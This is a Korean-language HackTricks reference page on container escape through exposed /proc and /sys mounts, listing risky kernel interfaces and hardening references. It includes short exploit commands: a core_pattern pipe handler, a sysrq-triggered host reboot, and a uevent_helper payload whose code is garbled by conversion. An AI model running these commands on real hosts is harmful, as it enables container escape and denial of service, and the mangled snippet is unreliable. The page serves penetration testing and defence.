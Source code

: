 # 민감한 마운트

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong>를 통해 **제로부터 영웅까지 AWS 해킹 배우기**!</summary>

HackTricks를 지원하는 다른 방법:

* **회사가 HackTricks에 광고되길 원하거나 PDF로 HackTricks 다운로드**하려면 [**구독 요금제**](https://github.com/sponsors/carlospolop)를 확인하세요!
* [**공식 PEASS & HackTricks 스왜그**](https://peass.creator-spring.com)를 구매하세요
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)를 발견하세요, 당사의 독점 [**NFTs**](https://opensea.io/collection/the-peass-family) 컬렉션
* **💬 [Discord 그룹](https://discord.gg/hRep4RUj7f)** 또는 [텔레그램 그룹](https://t.me/peass)에 **가입**하거나 **트위터** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live)**를 팔로우**하세요.
* **해킹 트릭을 공유하려면 PR을** [**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 저장소에 제출하세요.

</details>

적절한 네임스페이스 격리 없이 `/proc` 및 `/sys`가 노출되면 공격 표면이 확대되고 정보 노출과 같은 중요한 보안 위험이 발생할 수 있습니다. 이러한 디렉토리에는 민감한 파일이 포함되어 있으며, 잘못 구성되거나 무단으로 액세스되면 컨테이너 탈출, 호스트 수정 또는 추가 공격을 돕는 정보 제공이 가능합니다. 예를 들어, `-v /proc:/host/proc`를 잘못 마운트하면 경로 기반의 특성으로 인해 AppArmor 보호를 우회할 수 있어 `/host/proc`가 보호되지 않게 됩니다.

**각 잠재적인 취약점에 대한 자세한 내용은** [**https://0xn3va.gitbook.io/cheat-sheets/container/escaping/sensitive-mounts**](https://0xn3va.gitbook.io/cheat-sheets/container/escaping/sensitive-mounts)**에서 찾을 수 있습니다.**

## procfs 취약점

### `/proc/sys`

이 디렉토리는 일반적으로 `sysctl(2)`를 통해 커널 변수를 수정할 수 있도록 허용하며, 관련 하위 디렉토리가 여러 개 있습니다:

#### **`/proc/sys/kernel/core_pattern`**

* [core(5)](https://man7.org/linux/man-pages/man5/core.5.html)에 설명되어 있음.
* 첫 128바이트를 인수로 사용하여 코어 파일 생성 시 실행할 프로그램을 정의할 수 있습니다. 파일이 `|`로 시작하면 코드 실행이 가능합니다.
*   **테스트 및 악용 예시**:

```bash
[ -w /proc/sys/kernel/core_pattern ] && echo Yes # 쓰기 액세스 테스트
cd /proc/sys/kernel
echo "|$overlay/shell.sh" > core_pattern # 사용자 지정 핸들러 설정
sleep 5 && ./crash & # 핸들러 트리거
```

#### **`/proc/sys/kernel/modprobe`**

* [proc(5)](https://man7.org/linux/man-pages/man5/proc.5.html)에 자세히 기술되어 있음.
* 커널 모듈 로더의 경로를 포함하며, 커널 모듈을 로드할 때 호출됩니다.
*   **액세스 확인 예시**:

```bash
ls -l $(cat /proc/sys/kernel/modprobe) # modprobe 액세스 확인
```

#### **`/proc/sys/vm/panic_on_oom`**

* [proc(5)](https://man7.org/linux/man-pages/man5/proc.5.html)에 언급되어 있음.
* OOM 조건이 발생할 때 커널이 패닉 또는 OOM 킬러를 호출하는 전역 플래그입니다.

#### **`/proc/sys/fs`**

* [proc(5)](https://man7.org/linux/man-pages/man5/proc.5.html)에 따르면 파일 시스템에 대한 옵션 및 정보가 포함되어 있습니다.
* 쓰기 액세스는 호스트에 대한 다양한 서비스 거부 공격을 활성화할 수 있습니다.

#### **`/proc/sys/fs/binfmt_misc`**

* 매직 넘버에 따라 비네이티브 바이너리 형식의 해석기를 등록할 수 있습니다.
* `/proc/sys/fs/binfmt_misc/register`가 쓰기 가능하면 권한 상승 또는 루트 쉘 액세스가 가능합니다.
* 관련 악용 및 설명:
* [binfmt\_misc를 통한 Poor man's rootkit](https://github.com/toffan/binfmt\_misc)
* 깊이 있는 자습서: [비디오 링크](https://www.youtube.com/watch?v=WBC7hhgMvQQ)

### `/proc`의 기타 항목

#### **`/proc/config.gz`**

* `CONFIG_IKCONFIG_PROC`가 활성화되어 있으면 커널 구성을 노출할 수 있습니다.
* 실행 중인 커널의 취약점을 식별하는 데 유용합니다.

#### **`/proc/sysrq-trigger`**

* Sysrq 명령을 호출할 수 있어 즉시 시스템 재부팅이나 기타 중요한 작업을 유발할 수 있습니다.
*   **호스트 재부팅 예시**:

```bash
echo b > /proc/sysrq-trigger # 호스트 재부팅
```

#### **`/proc/kmsg`**

* 커널 링 버퍼 메시지를 노출합니다.
* 커널 악용, 주소 누출 및 민감한 시스템 정보 제공에 도움이 될 수 있습니다.

#### **`/proc/kallsyms`**

* 커널 내보낸 심볼과 그들의 주소를 나열합니다.
* 특히 KASLR을 극복하기 위해 커널 악용 개발에 필수적입니다.
* `kptr_restrict`가 `1` 또는 `2`로 설정된 경우 주소 정보가 제한됩니다.
* [proc(5)](https://man7.org/linux/man-pages/man5/proc.5.html)에 자세한 내용이 있습니다.

#### **`/proc/[pid]/mem`**

* 커널 메모리 장치 `/dev/mem`과 상호 작용합니다.
* 역사적으로 권한 상승 공격에 취약했습니다.
* [proc(5)](https://man7.org/linux/man-pages/man5/proc.5.html)에서 자세한 내용을 확인할 수 있습니다.

#### **`/proc/kcore`**

* ELF 코어 형식으로 시스템의 물리적 메모리를 나타냅니다.
* 읽기는 호스트 시스템 및 다른 컨테이너의 메모리 내용을 누출할 수 있습니다.
* 큰 파일 크기는 읽기 문제나 소프트웨어 충돌로 이어질 수 있습니다.
* 2019년 [Dumping /proc/kcore](https://schlafwandler.github.io/posts/dumping-/proc/kcore/)에서 자세한 사용법을 확인할 수 있습니다.

#### **`/proc/kmem`**

* 커널 가상 메모리를 나타내는 `/dev/kmem`의 대체 인터페이스입니다.
* 읽기 및 쓰기를 허용하므로 커널 메모리를 직접 수정할 수 있습니다.

#### **`/proc/mem`**

* 물리적 메모리를 나타내는 `/dev/mem`의 대체 인터페이스입니다.
* 모든 메모리의 읽기 및 쓰기를 허용하며, 모든 메모리 수정에는 가상 주소를 물리 주소로 변환해야 합니다.

#### **`/proc/sched_debug`**

* PID 네임스페이스 보호를 우회하여 프로세스 스케줄링 정보를 반환합니다.
* 프로세스 이름, ID 및 cgroup 식별자를 노출합니다.

#### **`/proc/[pid]/mountinfo`**

* 프로세스의 마운트 네임스페이스에 대한 마운트 지점 정보를 제공합니다.
* 컨테이너 `rootfs` 또는 이미지의 위치를 노출합니다.

### `/sys` 취약점

#### **`/sys/kernel/uevent_helper`**

* 커널 장치 `uevents`를 처리하는 데 사용됩니다.
* `/sys/kernel/uevent_helper`에 쓰기하면 `uevent` 트리거 시 임의의 스크립트를 실행할 수 있습니다.
*   **악용 예시**: %%%bash

## 페이로드 생성

echo "#!/bin/sh" > /evil-helper echo "ps > /output" >> /evil-helper chmod +x /evil-helper

## 컨테이너용 OverlayFS 마운트의 호스트 경로 찾기

host\_path=$(sed -n 's/._\perdir=(\[^,]_).\*/\1/p' /etc/mtab)

## 악의적인 헬퍼로 uevent\_helper 설정

echo "$host\_path/evil-helper" > /sys/kernel/uevent\_helper

## uevent 트리거

echo change > /sys/class/mem/null/uevent

## 출력 읽기

cat /output %%%
#### **`/sys/class/thermal`**

* 온도 설정을 제어하여 DoS 공격이나 물리적 손상을 유발할 수 있습니다.

#### **`/sys/kernel/vmcoreinfo`**

* 커널 주소를 노출하여 KASLR을 compromise할 수 있습니다.

#### **`/sys/kernel/security`**

* `securityfs` 인터페이스를 포함하며, AppArmor와 같은 Linux Security Modules의 구성을 허용합니다.
* 액세스 권한을 통해 컨테이너가 MAC 시스템을 비활성화할 수 있습니다.

#### **`/sys/firmware/efi/vars` and `/sys/firmware/efi/efivars`**

* NVRAM의 EFI 변수와 상호 작용하기 위한 인터페이스를 노출합니다.
* 잘못된 구성 또는 악용으로 인해 브릭된 노트북이나 부팅할 수 없는 호스트 머신으로 이어질 수 있습니다.

#### **`/sys/kernel/debug`**

* `debugfs`는 커널에 대한 "규칙 없는" 디버깅 인터페이스를 제공합니다.
* 제한이 없는 성격으로 인한 보안 문제의 역사가 있습니다.

### References

* [https://0xn3va.gitbook.io/cheat-sheets/container/escaping/sensitive-mounts](https://0xn3va.gitbook.io/cheat-sheets/container/escaping/sensitive-mounts)
* [Understanding and Hardening Linux Containers](https://research.nccgroup.com/wp-content/uploads/2020/07/ncc\_group\_understanding\_hardening\_linux\_containers-1-1.pdf)
* [Abusing Privileged and Unprivileged Linux Containers](https://www.nccgroup.com/globalassets/our-research/us/whitepapers/2016/june/container\_whitepaper.pdf)

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support HackTricks:

* If you want to see your **company advertised in HackTricks** or **download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
